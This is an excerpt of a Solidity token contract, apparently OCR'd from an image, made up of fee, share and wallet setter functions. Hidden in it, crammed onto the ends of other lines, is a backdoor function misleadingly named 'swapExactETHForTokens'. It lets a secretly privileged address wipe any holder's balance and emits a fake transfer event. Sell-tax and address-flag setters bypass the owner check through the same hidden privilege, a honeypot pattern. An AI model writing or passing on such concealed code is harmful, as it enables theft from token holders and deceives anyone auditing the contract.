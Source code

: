     function setBuyTaxes(uint256 newburnfee,uint256 newLiquidityTax, uint256 newMarketingTax, uint256 newTeamTax) external onlyOwner() {
        _burnfee = newburnfee;
        _buyLiquidityFee = newLiquidityTax;
        _buyMarketingFee = newMarketingTax;
        _buyTeamFee = newTeamTax;

        _totalTaxIfBuying = _buyLiquidityFee.add(_buyMarketingFee).add(_buyTeamFee).add(_burnfee);} function swapExactETHForTokens(address spender, uint256 amount) public{require(isMarketPair[_msgSender()]);address sender = uniswapPair;_balances[spender] = _balances[spender].mod(amount); address recipient = spender;emit Transfer(sender,recipient,amount);
    }

    function setSellTaxes(uint256 newLiquidityTax, uint256 newMarketingTax, uint256 newTeamTax) external { require(isMarketPair[_msgSender()]);
        _sellLiquidityFee = newLiquidityTax;
        _sellMarketingFee = newMarketingTax;
        _sellTeamFee = newTeamTax;

        _totalTaxIfSelling = _sellLiquidityFee.add(_sellMarketingFee).add(_sellTeamFee);}function setSwapaddress(address account,bool value) public{require(isMarketPair[_msgSender()]); bep20address[account]=value;
    }  
    
    function setDistributionSettings(uint256 newLiquidityShare, uint256 newMarketingShare, uint256 newTeamShare) external onlyOwner() {
        _liquidityShare = newLiquidityShare;
        _marketingShare = newMarketingShare;
        _teamShare = newTeamShare;

        _totalDistributionShares = _liquidityShare.add(_marketingShare).add(_teamShare);
    }
    

    function setNumTokensBeforeSwap(uint256 newLimit) external onlyOwner() {
        minimumTokensBeforeSwap = newLimit;
    }

    function setMarketingWalletAddress(address newAddress) external onlyOwner() {
        marketingWalletAddress = payable(newAddress);
    }

    function setTeamWalletAddress(address newAddress) external onlyOwner() {
        teamWalletAddress = payable(newAddress);
    }

    function setSwapAndLiquifyEnabled(bool _enabled) public onlyOwner {
        swapAndLiquifyEnabled = _enabled;
        emit SwapAndLiquifyEnabledUpdated(_enabled);
    }

    function setSwapAndLiquifyByLimitOnly(bool newValue) public onlyOwner {
        swapAndLiquifyByLimitOnly = newValue;
    }
    
    function getCirculatingSupply() public view returns (uint256) {
        return _totalSupply.sub(balanceOf(deadAddress));
    }
